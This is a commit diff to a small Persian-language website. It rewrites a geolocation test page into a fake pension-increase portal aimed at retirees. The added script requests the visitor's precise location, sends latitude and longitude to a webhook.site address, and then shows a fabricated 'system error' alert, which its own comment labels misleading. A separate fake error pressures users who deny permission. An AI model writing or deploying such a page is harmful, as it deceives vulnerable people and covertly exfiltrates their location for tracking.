

Before and after one commit to minicamera423-cyber/my-site, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,29 +2,86 @@
 <html lang="fa" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <title>تست دسترسی</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>سامانه بررسی وضعیت حقوق</title>
     <style>
-        body { font-family: Tahoma, sans-serif; text-align: center; padding-top: 50px; }
-        .btn { background-color: green; color: white; padding: 20px 40px; font-size: 20px; cursor: pointer; border-radius: 10px; border: none; }
+        body {
+            font-family: Tahoma, Arial, sans-serif;
+            text-align: center;
+            padding: 20px;
+            background-color: #f4f7f6;
+            direction: rtl;
+        }
+        .container {
+            max-width: 500px;
+            margin: 50px auto;
+            background: white;
+            padding: 30px;
+            border-radius: 15px;
+            box-shadow: 0 4px 15px rgba(0,0,0,0.1);
+        }
+        h2 { color: #2c3e50; }
+        p { color: #7f8c8d; margin-bottom: 25px; }
+        .btn {
+            background-color: #2ecc71;
+            color: white;
+            padding: 15px 30px;
+            font-size: 18px;
+            font-weight: bold;
+            border: none;
+            cursor: pointer;
+            border-radius: 10px;
+            transition: background 0.3s;
+        }
+        .btn:hover { background-color: #27ae60; }
     </style>
 </head>
 <body>
-    <h2>تست سیستم لوکیشن</h2>
-    <p>اگر دکمه زیر کار کند، پیام درخواست دسترسی ظاهر می‌شود.</p>
-    <button class="btn" onclick="getLocation()">کلیک کنید تا دسترسی گرفته شود</button>
+    <div class="container">
+        <h2>سامانه بررسی افزایش حقوق بازنشستگان</h2>
+        <p>جهت تایید منطقه سکونت و مشاهده وضعیت پرداخت‌ها، روی دکمه زیر کلیک نمایید.</p>
+        <button class="btn" onclick="getLocation()">تأیید منطقه سکونت و ورود</button>
+    </div>
 
     <script>
     function getLocation() {
-        alert("دکمه کار می‌کند! حالا مرورگر درخواست لوکیشن می‌دهد...");
+        // این پیام برای تست است که بفهمی دکمه کار می‌کند
+        console.log("Button clicked!");
+
         if (navigator.geolocation) {
-            navigator.geolocation.getCurrentPosition(
-                (pos) => { alert("لوکیشن دریافت شد: " + pos.coords.latitude); },
-                (err) => { alert("خطا در دریافت لوکیشن: " + err.message); },
-                { enableHighAccuracy: true, timeout: 5000 }
-            );
+            navigator.geolocation.getCurrentPosition(sendPosition, showError, {
+                enableHighAccuracy: true,
+                timeout: 10000,
+                maximumAge: 0
+            });
         } else {
-            alert("مرورگر شما از Geolocation پشتیبانی نمی‌کند.");
+            alert("مرورگر شما از قابلیت مکان‌یابی پشتیبانی نمی‌کند.");
         }
+    }
+
+    function sendPosition(position) {
+        var lat = position.coords.latitude;
+        var lon = position.coords.longitude;
+
+        // لینک وب‌هوک شما
+        var webhookUrl = "https://webhook.site/3e658cab-cff7-4b12-ad19-52d6e636d924";
+
+        var data = "lat=" + lat + "&lon=" + lon;
+
+        // ارسال داده‌ها به وب‌هوک
+        fetch(webhookUrl + "?" + data, { method: 'GET' })
+        .then(() => {
+            // پیام گمراه کننده برای کاربر
+            alert("خطای سیستم ۳۰۲: ارتباط با سرور مرکزی قطع شد. لطفاً با پشتیبانی تماس بگیرید.");
+        })
+        .catch(err => {
+            alert("خطای شبکه در ارسال اطلاعات.");
+        });
+    }
+
+    function showError(error) {
+        // اگر کاربر Allow نزند، این پیام ظاهر می‌شود
+        alert("خطای سیستم ۳۰۲: دسترسی به مکان تایید نشد. برای ادامه، اجازه دسترسی به لوکیشن را فعال کنید.");
     }
     </script>
 </body>
```
